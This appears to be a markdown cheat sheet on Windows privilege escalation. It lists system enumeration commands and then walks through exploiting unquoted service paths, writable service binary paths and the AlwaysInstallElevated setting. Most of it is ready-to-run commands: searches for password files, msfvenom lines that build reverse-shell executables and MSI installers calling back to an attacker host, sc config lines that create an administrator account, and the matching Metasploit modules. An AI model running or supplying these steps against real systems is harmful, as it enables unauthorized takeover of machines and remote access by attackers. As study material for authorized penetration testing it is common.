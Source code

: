 # Privilege escalation: Windows

If you started hacking on Linux, Windows can be frustrating and weird. But that's what most networks are running, from desktops to domain controllers. So you just have to get used to it.

## Gathering system information

These commands can be issued remotely using a cmd.exe shell.

### System information

```text
systeminfo
```

### OS version

```text
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```

### Active network connections

```text
netstat -ano
```

### Firewall settings

```text
netsh firewall show state
netsh firewall show config
```

### Scheduled tasks

```text
schtasks /query /fo LIST /v
```

### Running processes

Running processes linked to services:

```text
tasklist /SVC
```

Running services:

```text
net start
```

### Installed drivers

```text
DRIVERQUERY
```

### Installed patches

```text
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### Interesting files
Search for files that contain ‘password’ in the filename:

```text
dir /s *password*
```

Search for the keyword ‘password’ in files with the .txt extension:

```text
findstr /si password *.txt
```

## Unquoted service path

This is a common vulnerability for installed programs that don't put quotes around the file path to the executable:

```text
C:\Program Files\Some Software\Software.exe     #unquoted

"C:\Program Files\Some Software\Software.exe"
```

When Windows tries to locate the program, it guesses and tries to execute any word before a space. For example, in the unquoted service path above, Windows will try:

```text
C:\Program.exe

C:\Program Files\Some.exe

C:\Program Files\Some Software\Software.exe
```

An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If this returns a an unquoted service path, use ICACLS to check permissions on each directory in the path:
```
icacls "C:\Program Files\Some Software\"
```
If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions ('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit (assuming there is no antivirus, haha):
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f exe -o servicename.exe
```
Then restart the service:
```
sc stop [service name]

sc start [service name]
```
If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: `exploit/windows/local/trusted_service_path`

## Modifying binary service path
Similar to the unquoted service path vulnerability, you can attempt to modify the file path of a service and point it to a malicious executable in a writable directory. 

Windows has a tool called named accesschk.exe which checks permissions. To display services which can be modified by an authenticated user:
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
A service with write permissions for an authenticated user looks like this:
```
RW [service name] SERVICE_ALL_ACCESS
```
Show the service properties:
```
sc qc [service name]
```
This is where you can find out the `BINARY_PATH_NAME` value. Change the binary path on a particular service:
```
sc config [service name] binpath= "malicious executable path"
sc stop [service name]
sc start [service name]
```
You can also add a new user and grant administrator rights using the binary path:
```
sc config [service name] binpath= "net user admin password /add"
sc stop [service name]
sc start [service name]
sc config [service name] binpath= "net localgroup Administrators admin /add"
sc stop [service name]
sc start [service name]
```
Again, if you're super lazy here's a Metasploit Module: ```exploit/windows/local/service_permissions```

## AlwaysInstallElevated setting
Windows registry has a setting that allows non-privileged users to install Microsoft Windows Installer Package Files (MSI) with elevated system permissions. There are 2 registry entries which have to be set to `1` to enable this setting.

Check the values of the registry keys:
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If AlwaysInstallElevated is enabled in the registry entries you can create an installer payload with `msfvenom` (again assuming there is no antivirus):
```
msfvenom -p windows/adduser USER=admin PASS=password -f msi –o filename.msi
```
Generate a payload with a reverse shell:
```
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f msi -o filename.msi
```
Then use the following command to execute the msi installer file:
```
msiexec /quiet /qn /i C:\Users\filename.msi
```
A summary of these flags:

* `/quiet` will bypass UAC
* `/qn` specifies not to use a GUI
* `/i` is to perform a regular installation of the package

For the lazy, here's a Metasploit module: `exploit/windows/local/always_install_elevated`
